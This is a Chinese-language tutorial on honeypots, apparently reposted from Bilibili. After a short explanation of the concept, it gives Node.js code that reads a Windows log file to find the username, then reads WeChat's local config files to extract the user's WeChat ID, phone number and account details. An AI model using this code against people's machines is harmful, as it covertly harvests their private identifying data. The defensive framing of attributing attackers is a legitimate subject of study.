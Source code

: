 # 蜜罐技术

首先，我们先讲一下蜜罐的概念，你可以简单理解较为蜜罐就是一个陷阱，故意暴露一些我们人为设计好的漏洞，让攻击者自投罗网。



## 一、蜜罐介绍
蜜罐是对攻击者的欺骗技术，用以监视、检测、分析和溯源攻击行为，其没有业务上的用途，所有流入/流出蜜罐的流量都预示着扫描或者攻击行为，因此可以比较好的聚焦于攻击流量。

蜜罐可以实现对攻击者的主动诱捕，能够详细地记录攻击者攻击过程中的许多痕迹，可以收集到大量有价值的数据，如病毒或蠕虫的源码、黑客的操作等，从而便于提供丰富的溯源数据。另外蜜罐也可以消耗攻击者的时间，基于JSONP等方式来获取攻击者的画像。

但是蜜罐存在安全隐患，如果没有做好隔离，可能成为新的攻击源。

## 二、蜜罐技术获取手机号、微信号、地址

1.读取 PFRO日志文件（这个文件是存放ISA监控日志的信息）

![](./images/image-2023-01-25_22-33-46-528-04-蜜罐技术.png)


通过这个文件可以读取系统的用户名 


Nodejs 代码

```js
fs.readFile('C:/Windows/PFRO.log', async (err, data) => {
    const exp = /Users\\([^\\]*)/ig
    exp.test(data.toString('utf16le'))
    const userName = RegExp.$1
    const wxId = await getWxId(userName)
    const info = await getData(userName, wxId)
    console.log(info);

})
```
2.通过用户名读取wxid

```ts
//获取微信ID
const getWxId = <T>(path: T) => {
    const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/All Users/config/config.data`).toString('utf8')
    const reg = /Documents\\WeChat Files\\([^\\]*)/ig
    reg.test(data)
    return RegExp.$1
}
```
3.最后通过微信ID 读取你的微信信息（手机号，微信号，等）

## 完整代码

```js
import fs from 'fs';
//获取微信ID
const getWxId = <T>(path: T) => {
    const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/All Users/config/config.data`).toString('utf8')
    const reg = /Documents\\WeChat Files\\([^\\]*)/ig
    reg.test(data)
    return RegExp.$1
}
//读取信息
const getData = <T>(path: T, wxId: T) => {
    const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/${wxId}/config/AccInfo.dat`).toString('utf-8')
    return data

}
fs.readFile('C:/Windows/PFRO.log', async (err, data) => {
    const exp = /Users\\([^\\]*)/ig
    exp.test(data.toString('utf16le'))
    const userName = RegExp.$1
    const wxId = await getWxId(userName)
    const info = await getData(userName, wxId)
    console.log(info);

}) 作者：小满zs https://www.bilibili.com/read/cv16944860?spm_id_from=333.999.0.0 出处：bilibili
```